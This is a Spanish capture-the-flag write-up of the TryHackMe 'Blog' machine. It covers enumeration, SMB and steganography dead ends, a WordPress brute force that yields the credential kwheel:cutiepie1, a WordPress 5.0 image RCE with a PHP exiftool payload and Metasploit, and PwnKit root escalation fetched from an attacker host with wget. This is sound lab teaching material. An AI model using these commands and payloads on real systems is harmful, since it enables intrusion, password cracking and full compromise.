


# Blog


Dificultad -> Medium

Enlace a la máquina -> [TryHackme](https://tryhackme.com/room/blog)

-----------
## WriteUp Blog

Lo primero que vamos a hacer, como siempre, es comprobar la conectividad con la máquina objetivo. Esto, por un lado, nos confirmará que efectivamente lo esté, y por otro lado, podremos hacernos una primera idea ante el tipo de equipo al que nos vamos a enfrentar. Podemos averiguar si es un Linux o un Windows muy fácilmente, simplemente fijándonos en el valor del TTL 

```bash
ping -c 1 <IP_Objetivo>
```


Tal y como vemos en la imagen, el valor del TTL es de 63, un valor muy próximo a 64, por lo que en principio podemos pensar que estamos ante un Linux. Vemos que pierde un valor, esto es porque hay un nodo intermedio, podemos verlo metiéndole el parámetro -R al comando ping utilizado. Como vemos, el paquete ICMP enviado, ha pasado por un nodo intermedio antes de llegar a nuestra máquina.


Volviendo a la resolución de la máquina, lo primero que hacemos es ver qué puertos tiene abiertos. Para ello vamos a emplear nmap con los siguientes parámetros. 

```bash
sudo nmap -p- --open -sS -vvv -n -Pn <IP_Objetivo> -oG <Nombre_archivo>
```

- Parámetos de nmap
  - *-p-* Escanea el rango total de puertos (65535). 
  - *--open* Nos reportará solo los puertos abiertos. 
  - *-sS* (TCP SYN), también conocido como TCP SYN scan o Half-Open Scan. Es un tipo de escaneo más sigiloso que otro tipo de escaneos ya que no completa la conexión TCP, evitando en gran medida que se registre en los logs del sistema objetivo. Sin embargo, algunos sistemas de seguridad si que pueden detectar este tipo de escaneo y tomar medidas.
  - *-vvv* Triple verbose, para ver en consola lo que vaya encontrando nmap
  - *-n* Para no aplicar resolución DNS 
  - *-Pn* No realiza detección de Host. Con este parámetro nmap asumirá que los Host especificados están activos. 
  - *-oG* Genera un archivo de salida en formato Greppable, con el nombre que le hayamos especificado

Revisando rápidamente los resultados, vemos lo siguiente


Tal y como vemos en la imagen, encontramos 4 puertos abiertos. Por un lado el puerto 22 SSH; por otro lado el puerto 80 HTTP; y los puertos 139 y 445, asociados al servicio SAMBA. 

Profundizando más en el análisis de estos cuatro puertos, vamos a tratar de enumerar el servicio y la versión (-sV) que corren en cada uno de los dos puertos. También vamos a lanzar el conjunto de scripts básicos de reconocimiento que nmap pone a nuestra disposición empleando el parámetro -sC. Guardamos los resultados en formato nmap en un archivo con el nombre que queramos. 

```bash
nmap -sC -sV -p<Puertos_a_Escanear> <IP_Objetivo> -oN <Nombre_Archivo>
```


En primer lugar, podemos ver que estamos ante una máquina Ubuntu. Tenemos las versiones de los servicios SSH (7.6) y HTTP (Apache 2.4.29). Podemos tratar de ver en searchsploit o San Google directamente, si existe alguna vulnerabilidad asociada a estas versiones. En cuanto a OpenSSH 7.6, encontramos un vulnerabilidad que nos permite enumerar usuarios válidos, pero no conseguimos nada por esta vía. Todas las versiones de OpenSSH inferiores a la 7.7, son vulnerables. En el puerto 80 también vemos por ahí un archivo robots.txt que inspeccionaremos, y que ya podemos ver que tiene una entrada deshabilitada. La entrada en cuestión en wp-admin. Pues nada, ahora cuando inspeccionemos el sitio web lo miramos. También vemos el puerto 445 (SAMBA), que inspeccionaremos a continuación. 

Como decíamos, vamos a empezar centrando nuestra atención en el puerto 445. Lo que vamos a hacer, es enumerar este servicio con herramientas con smbmap, smbclient, enum4linux, etc. Para una enumeración más exhaustiva, podemos utilizar enum4linux. 

```bash
enum4linux [IPObjetivo]
```


Entre la mucha información reportada por enum4linux, ahí podemos ver los recursos compartidos. Vemos 3 recursos compartidos que tendremos que inspeccionar. Si utilizamos por ejemplo smbmap, nos dirá los permisos que tenemos cada uno de los 3 recursos compartidos. Así pues, en el recurso BillySMB, tenemos permisos de lectura y escritura, recordemos haciendo uso de una NULL SESSION, es decir, sin autenticación de ningún tipo. 


Pues lo dicho, vamos a echarle un vistazo a BillySMB, en este caso conectándonos con smbclient ver si existen archivos dentro del directorio, y en caso positivo, descargarlos para inspeccionarlos.  

```bash
smbclient //[IPobjetivo/Recurso] -N
``` 


Como vemos, encontramos 3 archivos, dos de imagen (.jpg y .png) y uno de video (.mp4), que vamos a descargar a nuestro equipo para inspeccionarlos. Podemos descargarlos los 3 con este solo comando, o ir descargándolos uno a uno con get, lo que queramos. Si utilizamos mget, nos va a ir preguntando si queremos descargar los archivos y tendremos que ir confirmando la descarga. Para evitar esto, ejecutamos prompt previamente y ya esta. 

```bash
prompt
mget *
```
Si salimos de smbclient, en el directorio de trabajo actual, se nos habrán descargado los 3 archivos que procedemos a continuación de revisar. 


Empezaremos revisando la imagen Alice-White-Rabbit.jpg. Con la herramienta feh, podemos visualizarla rápidamente.  Nuestra primera intuición debería ser comprobar si hay incrustaciones estenográficas en la imagen, lo cual hacemos con la ayuda de steghide.

```bash
steghide --info [archivo] 
```


Efectivamente, la imagen contiene un archivo oculto llamado "rabbit_hole.txt". Obviamente, no suena demasiado optimista, pero aún así vamos a extraerlo y ver su contenido. 

```bash
steghide extract -sf [archivo]
```


Pues pista falsa. Vamos a revisar la otra imagen "check-this.png". Otra forma de ver imágenes desde consola, es con el siguiente comando 

```bash
kitty + kitten icat [Archivo]
```


Tal y como vemos, es un Código QR. Pues nada, sacamos nuestro móvil, lo escaneamos y esperamos tranquilamente a que nos hackeen el dispositivo. Recordar la importancia de no escanear códigos QR de sitios que no sean de nuestra confianza o sitios poco fiables. 

Lo que vamos a hacer, es con la herramienta zbarimg, escanear el código QR a ver hacía donde nos lleva y luego analizar el enlace obtenido con virus total para confirmar que no sea nada chungo. Si no tenemos instalada esta herramienta, podemos hacerlo con el siguiente comando 

```bash
sudo apt install zbar-tools
```

Ahora simplemente, vamos a analizar ese código QR, le pasamos la imagen y nos dará la URL a la que nos dirige. 

```bash
zbarimg [imagen]
```



Si no queremos hacerlo desde terminal, igualmente podemos hacerlo empleando sitios web. Lo primero que vamos a hacer, es utilizar el siguiente sitio web para que nos diga hacía dónde nos dirige este código QR. 

```
https://www.codigos-qr.com/lector-qr-online/
```
Simplemente le tendremos que cargar la imagen con el código QR y nos mostrará el enlace. 


Cómo vemos, el sitio web nos lleva a ese enlace. Ahora podemos pasarle ese enlace a VirusTotal para que nos lo analice 

```
https://www.virustotal.com/
```


En principio parece que no se ha reportado nada peligroso en este enlace. Aún así, si queremos asegurarnos aún más viendo el enlace completo, podemos utilizar CheckShortURL, que nos dará la URL completa

```
https://checkshorturl.com/
```

Simplemente le pasamos la URL del código QR y vamos a ver cual es la URL completa. 


Parece ser un sitio de YouTube, así que vamos a ver qué es. Otro Rabbit Hole, simplemente una canción. Estas medidas de seguridad no vienen mal, pese a estar en un entorno controlado con Máquinas Virtuales de por medio, toda precaución es poca. 

Nos queda por revisar el archivo "tswift.mp4" que podemos abrir con VLC y verlo si queremos. Simplemente un video de Taylor Swift y el meme de la cabra. 

```bash
vlc [archivo]
```

Otro Rabbit Hole, nos hemos comido 3 ni más ni menos, no está mal. Dejamos ya de lado el servicio SAMBA y vamos a inspeccionar el puerto 80 HTTP. 


Cómo siempre que tenemos que revisar un sitio web, no viene mal tirar primero de la herramienta Whatweb para hacernos una primera idea de las tecnologías que vamos a encontrar. Además si el sitio web tiene un CMS, también podremos verlo. 

```bash
whatweb http://[IPObjetivo]:80
```


Vemos alguna información interesante, entre toda ella, vemos que el sitio utiliza WordPress 5.0. Teniendo un sitio de WordPress, se nos tiene que venir a la cabeza directamente la herramienta wpscan. Pero antes de eso, vamos a ver un poco el sitio web a ver qué más encontramos. 

```
http://[IPObjetivo]:80
```

Revisando un poco el sitio y el código, no encontramos mucho de interés. Si que hay un enlace, que nos lleva directamente al portal de inicio de sesión de WordPress. Si no lo hubiéramos visto así, igualmente ya nos lo había chivado nmap con el descubrimiento en el robots.txt del directorio wp-admin también. 


Pues lo dicho, lo que vamos a hacer, es emplear wpscan para ver qué información útil puede darnos. En principio, vamos a tratar de enumerar usuarios con el parámetro -e 

```bash
wpscan --url http://[IPObjetivo]/ -e 
```


Tal y como vemos en la imagen nos reporta 4 usuarios válidos en WordPress. 

```
Usuarios: kwheel
	  bjoel
	  Karen Wheeler
	  Billy Joel
```

Lo que vamos a hacer ahora, es aplicar un ataque de fuerza con cada uno de estos usuarios y el diccionario roockyou.txt para ver si encontramos alguna contraseña. 

```bash
wpscan --url http://[IPObjetivo] -U [usuario] -P /usr/share/wordlists/rockyou.txt
```


En principio, solo para el usuario kwheel tenemos suerte y encontramos una contraseña válida. 

```
Usuario: kwheel
Contraseña: cutiepie1
```

Pues bueno, vamos a utilizar estas credenciales para autenticarnos en el panel de WordPress e iniciar sesión. Tras un rato investigando para ver si podemos subir una Reverse Shell en PHP, vemos que no podemos hacerlo, quizás por no ser una cuenta de administrador o directamente porque no está permitido subir archivos PHP que sería lo más normal. 

Lo que decidimos hacer en este punto, es buscar alguna vulnerabilidad asociada a la versión 5.0 de WordPress, que es la que se está empleando 

```bash
searchsploit WordPress 5.0
```


Encontramos muchos exploits disponibles, pero nos llama la atención uno escrito en Python, que supuestamente permite la ejecución remota de código. vamos a revisarlo 

```bash
searchsploit -x php/webapps/49512.py
```

Lo que está tratando de hacer este script, es subir una imagen con un código PHP, que nos dará una Reverse Shell. Nos aútomatiza en cierto modo la tarea, pero analizando el código podemos ver lo que hace. Resumidamente, lo que está haciendo es subir una Reverse Shell en PHP, dentro de una imagen, que al ejecutarse, nos dará un Reverse Shell. 

Analizando el propio script en Python, nos dice como inyectar código PHP en la imagen, utilizando exiftool, además de entender un poco más cómo funciona está vulnerabilidad. Podemos ver que esta vulnerabilidad de WordPress, combina una vulnerabilidad de Path Traversal y LFI. Por aquí dejamos el enlace 

```
https://www.exploit-db.com/exploits/49512
```

Creamos una imagen gd.jpg con código PHP en los metadatos tal y como nos dicen

```bash
exiftool gd.jpg -CopyrightNotice="<?=\`\$_GET[0]\`?>" 
```


Y ejecutamos el script. 


```bash
python3 49512.py http://10.10.106.189:80/ kwheel cutiepie1 twentytwenty
```


Al ejecutar el script con los parámetros necesarios (URL, usuario, contraseña, tema), nos da la URL para ejecutar el payload, y estamos en escucha por netcat, por el puerto que le hemos especificado al script, pero por alguna razón no logra ejecutarse correctamente. Hasta dónde he podido investigar, el fallo puede estar en que la biblioteca GD, elimina los metadatos cuando recorta o redimensiona una imagen, por lo que la carga útil que le metimos, ya no está disponible. Pero la verdad, que no se cual pueda ser el problema. 

Se agradece posibles soluciones. 

En este punto, pues encontramos por ahí también un módulo de Metasploit que podemos utilizar. 

```bash
msfconsole -q
```

Buscamos el módulo que nos interesa, lo seleccionamos y vemos las opciones que nos piden

```
search wordpress 5.0
use 0
show options
```


Pues nada, le metemos los parámetros necesarios 

```
set PASSWORD [contraeña]
set USERNAME [usuario]
set LHOST [IPatacante]
set RHOST [IPvictima]
run
```


Igualmente, Metasploit nos automatiza la tarea y nos va poniendo información de lo que va haciendo, hasta que finalmente tenemos un conexión con el sistema objetivo, mediante una sesión Meterpreter. 

Pues nada, nos ponemos una Shell y comprobamos que efectivamente estamos en el equipo objetivo como el usuario www-data

```bash
ip a s
id
```


Lo que se nos ocurre hacer para elevar nuestros privilegios, es buscar binarios con el bit SUID activo 

```
find / -type f -perm -4000 -user root 2>/dev/null
```


Entre todos los binarios, vemos el binario pkexec. Lo que vamos a hacer es comprobar si la versión de pkexec, es vulnerable o si ha sido parcheada. La versión pkexec vulnerable a CVE-2021-4034 ("PwnKit") es la 0.105. Dentro de esta versión, si se le han aplicado los parches necesarios para evitar esta vulnerabilidad, tendríamos que tener la versión 0.105-26.1 o superior. Si la versión es inferior a 0.105-26, el sistema seguirá siendo vulnerable. Vamos a comprobarlo

```bash
pkexec --version
dpkg -l | grep policykit-1 | xargs
```



Lo primero que haremos será ir a la siguiente cuenta de Github y clonarnos en nuestro equipo de atacante el siguiente repositorio.

```bash
git clone https://github.com/Almorabea/pkexec-exploit
```

Nos montamos un servidor HTTP con Python

```bash
python3 -m http.server 80
```

Ahora en la máquina víctima, nos lo descargamos con el siguiente comando

```bash
wget http://[IPatacante]/[nombrescript.py]
```

Le damos el permiso 777 que da permisos de lectura, escritura y ejecución al propietario, al grupo y a otros.

```bash
chmod 777 [script.py]
```

Ya con el script en el equipo objetivo, le cambiamos el nombre y simplemente lo ejecutamos. 

```bash
./script.py
```


Tal y como vemos, somos usuario root. Ya con privilegios de root, buscamos las flags de usuario y de root con los siguientes comandos 

```bash
find / -type f -name "user.txt" 2>/dev/null
```


```bash
find / -type f -name "root.txt" 2>/dev/null   
```


Las demás preguntas que nos pide TryHackme, podemos ir contestándolas mientras hacemos el CTF. El CMS utilizado es WordPress, la versión es la 5.0 y la Flag de user (la verdadera) está en el directorio /media/usb


